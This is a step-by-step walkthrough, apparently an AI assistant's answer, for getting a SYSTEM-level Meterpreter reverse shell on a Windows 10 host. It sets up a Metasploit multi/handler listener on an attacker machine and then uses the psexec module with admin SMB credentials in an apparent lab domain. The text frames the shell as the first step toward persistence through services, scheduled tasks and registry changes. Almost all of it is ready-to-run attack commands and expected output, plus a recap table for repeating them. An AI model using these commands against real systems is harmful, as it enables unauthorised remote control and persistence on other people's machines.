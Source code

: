 **simple, step-by-step guide** to get a **Meterpreter shell on a Windows 10 machine using PsExec**, which is what you need before setting up persistence. I've made it **easy to remember and repeat**, broken into two phases: **Listener Setup (Kali)** and **PsExec Exploit (Metasploit)**.

---

## 🧪 Phase 1: Set Up the Listener in Kali Linux

> Think of this as “setting the trap” to catch the shell.

### 🧱 Step 1: Open Metasploit
```bash
msfconsole
```

### 🧱 Step 2: Kill old background jobs (optional but safe)
```bash
jobs -K
```

### 🧱 Step 3: Set up a multi/handler to catch the reverse shell
```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.117.100     # Your Kali IP address
set LPORT 4444
run -j
```
> ✅ You now have a listener running in the background, ready to catch a reverse shell.

---

## 💣 Phase 2: Launch the Exploit with PsExec

> Think of this as “delivering the shell.”

### 🧱 Step 4: Use PsExec in Metasploit
```bash
use exploit/windows/smb/psexec
```

### 🧱 Step 5: Set the target IP
```bash
set RHOSTS 172.22.117.20     # Target Windows 10 IP
```

### 🧱 Step 6: Set SMB credentials (must be ADMIN)
```bash
set SMBUser tstark
set SMBPass Password!
set SMBDomain megacorpone
```

### 🧱 Step 7: Use the same payload from the handler
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.117.100
set LPORT 4444
```

### 🧱 Step 8: Launch the attack
```bash
run
```

---

## ✅ What to Expect

If successful, you'll see:
```
Sending stage (200262 bytes) to 172.22.117.20
Meterpreter session 1 opened
```

You now have a **SYSTEM-level Meterpreter session**, which is required for persistence techniques like:

- Creating services
- Scheduled tasks
- Registry changes

---

## 🔁 Quick Recap

| Step | Command |
|------|---------|
| 1 | `msfconsole` |
| 2 | `jobs -K` |
| 3 | `use exploit/multi/handler` |
| 4 | `set PAYLOAD windows/x64/meterpreter/reverse_tcp` |
| 5 | `set LHOST <Kali IP>` |
| 6 | `set LPORT 4444` |
| 7 | `run -j` |
| 8 | `use exploit/windows/smb/psexec` |
| 9 | `set RHOSTS <Target IP>` |
| 10 | `set SMBUser`, `SMBPass`, `SMBDomain` |
| 11 | `set PAYLOAD`, `LHOST`, `LPORT` again |
| 12 | `run` |

---

